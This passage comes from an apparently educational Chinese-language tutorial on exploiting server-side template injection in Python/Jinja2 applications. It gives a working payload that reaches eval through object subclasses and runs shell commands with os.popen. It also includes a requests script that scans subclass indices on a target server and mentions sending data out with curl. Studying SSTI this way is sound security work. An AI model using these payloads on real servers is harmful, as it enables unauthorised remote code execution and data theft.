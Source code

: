 我们可以记下几个含有eval函数的类：

- warnings.catch_warnings
- WarningMessage
- codecs.IncrementalEncoder
- codecs.IncrementalDecoder
- codecs.StreamReaderWriter
- os._wrap_close
- reprlib.Repr
- weakref.finalize

所以payload如下：

```python
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```

### 寻找 os 模块执行命令

Python的 os 模块中有system和popen这两个函数可用来执行命令。其中system()函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；popen()函数执行命令有回显。所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。

首先编写脚本遍历目标Python环境中含有os模块的类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'os.py' in res.text:
        print(i)

# 可以得到一大堆类
64
65
66
67
68
79
80
81
83
117
147
154
161
162
163
164
...
```
